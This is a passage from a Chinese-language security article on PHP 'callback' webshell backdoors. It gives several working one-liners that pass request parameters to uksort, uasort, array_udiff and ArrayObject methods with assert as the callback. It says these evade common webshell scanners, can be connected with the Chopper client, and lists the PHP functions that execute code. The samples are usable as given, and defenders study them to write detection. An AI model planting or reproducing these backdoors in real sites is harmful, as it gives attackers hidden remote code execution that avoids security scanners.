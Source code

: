 这个后门，狗和盾是都查不出来的：

![enter image description here](http://drops.javaweb.org/uploads/images/53d1682d77bb52564ad4b121cea4e759d425414e.jpg)

同样的道理，这个也是功能类似：

```
$e = $_REQUEST['e'];
$arr = array('test' => 1, $_REQUEST['pass'] => 2);
uksort($arr, $e);

```

再给出这两个函数，面向对象的方法：

```
// way 0
$arr = new ArrayObject(array('test', $_REQUEST['pass']));
$arr->uasort('assert');

// way 1
$arr = new ArrayObject(array('test' => 1, $_REQUEST['pass'] => 2));
$arr->uksort('assert');

```

再来两个类似的回调后门：

```
$e = $_REQUEST['e'];
$arr = array(1);
$e = $_REQUEST['e'];

$arr = array($_POST['pass']);
$arr2 = array(1);
array_udiff($arr, $arr2, $e);

```

以上几个都是可以直接菜刀连接的一句话，但目标PHP版本在5.4.8及以上才可用。

我把上面几个类型归为：二参数回调函数（也就是回调函数的格式是需要两个参数的）

0x04 三参数回调函数
============

* * *

有些函数需要的回调函数类型比较苛刻，回调格式需要三个参数。比如array_walk。

array_walk的第二个参数是callable类型，正常情况下它是格式是两个参数的，但在0x03中说了，两个参数的回调后门需要使用php5.4.8后的assert，在5.3就不好用了。但这个回调其实也可以接受三个参数，那就好办了：

![enter image description here](http://drops.javaweb.org/uploads/images/bb897dbe4b60aa7a0c748d5bfed55a1ec6d6b012.jpg)

php中，可以执行代码的函数：

```
1.  一个参数：assert
2.  两个参数：assert （php5.4.8+）
3.  三个参数：preg_replace /e模式

```
